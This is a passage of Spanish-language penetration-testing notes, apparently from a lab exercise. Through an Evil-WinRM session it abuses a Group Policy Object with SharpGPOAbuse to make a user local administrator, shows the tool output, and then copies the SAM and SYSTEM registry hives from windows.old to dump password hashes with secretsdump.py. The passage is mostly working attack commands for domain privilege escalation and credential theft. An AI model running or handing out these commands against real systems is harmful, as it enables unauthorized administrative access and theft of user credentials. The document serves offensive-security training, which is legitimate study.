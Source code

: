```
*Evil-WinRM* PS C:\Users\charlotte\Documents> .\.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount Charlotte --GPOName "Default Domain Policy"
[+] Domain = secura.yzx
[+] Domain Controller = dc01.secura.yzx
[+] Distinguished Name = CN=Policies,CN=System,DC=secura,DC=yzx
[+] SID Value of Charlotte = S-1-5-21-3453094141-4163309614-2941200192-1104
[+] GUID of "Default Domain Policy" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] File exists: \\secura.yzx\SysVol\secura.yzx\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] The GPO does not specify any group memberships.
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
``` 

- `gpupdate /force`
- Te puedes conectar con evil-winrm o meterpreter. 

``` 

*Evil-WinRM* PS C:\Users\charlotte\Documents> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
charlotte
The command completed successfully.
```

----

## windows.old credential dumping
- En caso de que la maquina tenga un windows.old, podemos intentar dumpear las credenciales de los usuarios que estaban en el sistema anterior.
    - `copy C:\windows.old\Windows\System32\config\sam C:\sam.save`
    - `copy C:\windows.old\Windows\System32\config\system C:\system.save`
    - `secretsdump.py -sam sam.save -system system.save LOCAL`